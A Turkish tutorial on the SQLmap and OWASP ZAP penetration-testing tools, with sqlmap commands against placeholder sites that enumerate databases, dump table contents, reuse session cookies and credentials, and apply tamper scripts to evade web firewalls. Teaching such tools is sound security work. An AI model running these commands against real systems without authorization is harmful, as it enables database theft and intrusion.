 1. SQLmap Kurulumu
SQLmap, çoğu Linux dağıtımında veya Windows işletim sistemlerinde rahatlıkla çalıştırılabilir. GitHub üzerinden veya paket yöneticileri ile kurulum yapabilirsiniz.
Linux (Ubuntu/Debian) için:
```bash
bash
sudo apt update
sudo apt install sqlmap
```
Windows:
sayfasından en son sürümü indirip, zip dosyasını açın.
```bash
sqlmap.py dosyasını çalıştırabilirsiniz.
```
2. SQLmap ile Basit Kullanım
SQLmap komut satırında kullanılan temel komutlar şunlardır:
Temel Komut Yapısı:
```bash
bash
sqlmap -u <url> --risk=3 --level=5
```
-u <url>: Hedef URL'yi belirtir.
--risk=3: Sorgu risk seviyesini belirtir. 1 en düşük, 3 ise en yüksek risk seviyesidir.
--level=5: Sorgunun detay seviyesini belirtir. 1 en düşük, 5 ise en yüksek seviyedir.
Örneğin, bir URL üzerinde SQL enjeksiyon testi yapmak için:
```bash
bash
sqlmap -u "https://example.com/page?id=1" --risk=3 --level=5
```

3. SQLmap ile Farklı Yöntemler Kullanmak
SQLmap, farklı SQL enjeksiyon türlerini test etmek için farklı bayraklar (flags) ve seçenekler sunar.
GET Parametreleri Üzerinde Test Yapmak
Eğer hedef URL parametreler içeriyorsa, SQLmap, URL'yi test eder.
```bash
bash
sqlmap -u "https://example.com/page?id=1" --technique=U
```

```bash
Burada --technique=U ifadesi Union-based SQL enjeksiyon testini kullanır. Farklı enjeksiyon türleri için aşağıdaki teknik bayrakları kullanabilirsiniz:
```
U - Union-based
B - Blind SQL Injection
E - Error-based
T - Time-based
Q - Query-based
S - Stacked Query-based
POST İstekleri ile SQLmap Kullanmak
POST isteği kullanarak SQL enjeksiyon testi yapabiliriz. Örneğin, form verileri üzerinde test yapmak için:
```bash
bash
sqlmap -u "https://example.com/login" --data="username=admin&password=1234"
```

Cookie Üzerinden SQLmap Kullanmak
Eğer uygulama oturum açma mekanizmasını kullanıyorsa ve cookie kullanıyorsa, aşağıdaki komutla SQLmap’i test edebilirsiniz:
```bash
bash
sqlmap -u "https://example.com" --cookie="PHPSESSID=xyz123"
```

Veritabanı Hakkında Bilgi Almak
SQLmap, SQL enjeksiyon açığını bulduğunda veritabanı hakkında daha fazla bilgi almak için aşağıdaki komutla kullanılır:
```bash
bash
sqlmap -u "https://example.com/page?id=1" --dbs
```

Bu komut, hedefin kullandığı veritabanlarının listesini alır.
Tablo ve Kolonları Listelemek
Bir veritabanı hakkında bilgi edindikten sonra, tabloları listelemek için:
```bash
bash
sqlmap -u "https://example.com/page?id=1" -D <veritabanı_adı> --tables
```

Ve bir tablonun kolonlarını listelemek için:
```bash
bash
sqlmap -u "https://example.com/page?id=1" -D <veritabanı_adı> -T <tablo_adı> --columns
```

Veri Çekmek
SQLmap ile veritabanındaki verileri çekmek için:
```bash
bash
sqlmap -u "https://example.com/page?id=1" -D <veritabanı_adı> -T <tablo_adı> -C <kolon_adı> --dump
```

Bu komut belirtilen tabloyu ve kolonları içeren veritabanı verilerini alır.
4. SQLmap Çıktılarının Yorumlanması
SQLmap çıktısında, aşağıdaki bilgilere rastlayabilirsiniz:
Bağlantı tipi (GET veya POST)
Veritabanı türü (MySQL, MSSQL, PostgreSQL, vb.)
Enjeksiyon türü (Blind, Union, Error-based, Time-based vb.)
Bulunan veriler (Veritabanı adı, tablo adı, kolonlar, veri içerikleri vb.)
Elde edilen verilere göre, zafiyetin daha da derinlemesine araştırılmasına yönelik saldırılar geliştirilebilir.
5. Kullanıcı Kimlik Doğrulaması ve Çerezler (Cookies)
Eğer hedef uygulama kimlik doğrulaması yapıyorsa, SQLmap ile kimlik doğrulama işlemini gerçekleştirebilirsiniz.
Çerezler ile Kimlik Doğrulama:
```bash
bash
sqlmap -u "https://example.com/page?id=1" --cookie="SESSION_ID=123456789"
```

Temel Kimlik Doğrulama:
```bash
bash
sqlmap -u "https://example.com/page?id=1" --auth-type=Basic --auth-cred="user:password"
```

6. SQLmap ile Güvenlik Duvarını (WAF) Bypass Etmek
SQLmap, bazı güvenlik duvarlarını (WAF) aşmak için çeşitli teknikler sunar. Eğer bir WAF tespit edilirse, aşağıdaki bayrakları kullanabilirsiniz:
```bash
bash
sqlmap -u "https://example.com/page?id=1" --tamper=space2comment,between
```

```bash
Burada --tamper bayrağı, SQL sorgularını değiştiren bir dizi teknik sağlar.
```

Özet:
SQLmap, SQL enjeksiyonlarını test etmek için güçlü ve etkili bir araçtır. URL, POST verileri, çerezler ve HTTP başlıkları gibi farklı yollarla testler yapılabilir. Ayrıca, SQLmap ile veritabanı bilgileri toplama, verileri dökümleme ve hata mesajları üzerinde bilgi edinme işlemleri yapılabilir. Aracın geniş parametre seçenekleri sayesinde, hemen hemen her tür SQL enjeksiyon açığını keşfetmek mümkün hale gelir.



SQLmap Nedir? Ne İşe Yarar?
SQLmap, web uygulamalarındaki SQL Injection (SQLi) zafiyetlerini tespit etmek ve istismar etmek için kullanılan açık kaynaklı bir araçtır. Otomatikleştirilmiş yapısıyla, hassas verileri elde etmek, veritabanı yönetim sistemlerini belirlemek ve yetkisiz erişim sağlamak için kullanılır.

SQLmap’in Temel Özellikleri
- SQL Injection Zafiyetlerini Otomatik Tespit Eder
✅ Farklı Veritabanı Türleri ile Çalışır (MySQL, PostgreSQL, MSSQL, Oracle, SQLite vb.)
✅ GET ve POST İsteklerini Analiz Edebilir
✅ Veritabanı İsmi, Tablolar ve İçerikleri Elde Edebilir
✅ Kullanıcı Hesapları ve Hashlenmiş Şifreleri Çıkartabilir
✅ Güvenlik Duvarlarını (WAF) Bypass Etmek İçin Tamper Scriptlerini Destekler
✅ Cookies, HTTP Header, User-Agent Üzerinden Test Yapabilir

SQLmap Nasıl Kullanılır?
Temel Kullanım:
```bash
bash
sqlmap -u "https://example.com/page?id=1"
```
Bu komut, belirtilen URL’de SQL Injection olup olmadığını kontrol eder.
Daha Gelişmiş Komutlar:
## Veritabanı Adlarını Listeleme:
```bash
bash
sqlmap -u "https://example.com/page?id=1" --dbs
## Tabloları Listeleme:
bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi --tables
## Kolonları Listeleme:
bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi -T tablo_adi --columns
## Kritik Verileri Çekme:
bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi -T tablo_adi -C kolon_adi --dump
```


OWASP ZAP Nedir? Nasıl Kullanılır?
## OWASP ZAP Nedir?
OWASP ZAP (Zed Attack Proxy), web uygulamalarında güvenlik açıklarını taramak ve analiz etmek için kullanılan açık kaynaklı bir sızma testi aracıdır. OWASP tarafından geliştirilmiş olup, özellikle web güvenliği testleri yapan kişiler ve bug bounty avcıları için kullanışlıdır.
ZAP’ın temel özellikleri şunlardır:
✅ Otomatik güvenlik taraması (SQL Injection, XSS, CSRF gibi açıkları bulma)
✅ Proxy sunucu olarak çalışma (HTTP ve HTTPS trafiğini yakalayıp değiştirme)
✅ Manuel güvenlik testleri için araçlar (Fuzzer, Active Scan, Spidering)
✅ API test desteği (WebSocket ve REST API taramaları yapabilir)
✅ Otomatik raporlama

- OWASP ZAP Nasıl Kullanılır?
### 1. OWASP ZAP Kurulumu
Resmi siteye git: 🔗 https://www.zaproxy.org/download/
İşletim sistemine uygun sürümü indir ve yükle.
Çalıştır ve başlat.

### 2. ZAP Kullanımı (Temel Adımlar)
### 1. Hedef Web Sitesini Belirleme
ZAP'ı açtıktan sonra hedef web sitesini ekle:
Quick Start → URL Gir → "Attack" butonuna bas

### 2. Proxy Ayarlarını Yapılandırma
ZAP, bir proxy sunucu gibi çalışır ve tarayıcıdan gelen istekleri yakalar.
Tarayıcıyı ZAP’ın proxy’sine yönlendirmek için:
Proxy IP: 127.0.0.1
Proxy Port: 8080
Tarayıcının proxy ayarlarını bu şekilde değiştirerek ZAP ile web trafiğini analiz edebilirsin.

### 3. Pasif ve Aktif Tarama Yapma
- Pasif Tarama: (Siteyi analiz eder, ancak saldırı yapmaz)
Spider Scan → Site haritası çıkartılır
Passive Scan → Açıklar pasif olarak analiz edilir

- Aktif Tarama: (Saldırı simülasyonu yapar)
Active Scan → SQLi, XSS, CSRF, SSRF gibi açıkları test eder
"Start Scan" butonuna basarak aktif tarama başlatabilirsin

### 4. Manuel Pentest İçin Fuzzer Kullanımı
ZAP’ın "Fuzzer" aracı, belirli giriş alanlarını XSS, SQL Injection gibi açıklar için test etmene olanak tanır.
İlgili HTTP isteğini yakala
Payload listesi ekleyerek Fuzz işlemini başlat

- OWASP ZAP Komutları ve API Kullanımı
Terminal üzerinden ZAP çalıştırmak için:
```bash
bash
zap.sh -daemon -host 127.0.0.1 -port 8080
```
Belirli bir siteyi taramak için:
```bash
bash
zap-cli quick-scan -r https://hedefsite.com
```

## Kimler Kullanmalı?
- ️ Siber Güvenlik Uzmanları
✔️ Bug Bounty Avcıları
✔️ Pentesterlar (Sızma Testi Uzmanları)
✔️ Güvenlik Araştırmacıları

## Özetle:
OWASP ZAP, web uygulamalarında SQLi, XSS, CSRF, SSRF gibi açıklıkları tespit etmek için kullanılan güçlü bir sızma testi aracıdır. Otomatik ve manuel test yetenekleri sayesinde web güvenliği testlerinde en çok tercih edilen araçlardan biridir. 🚀

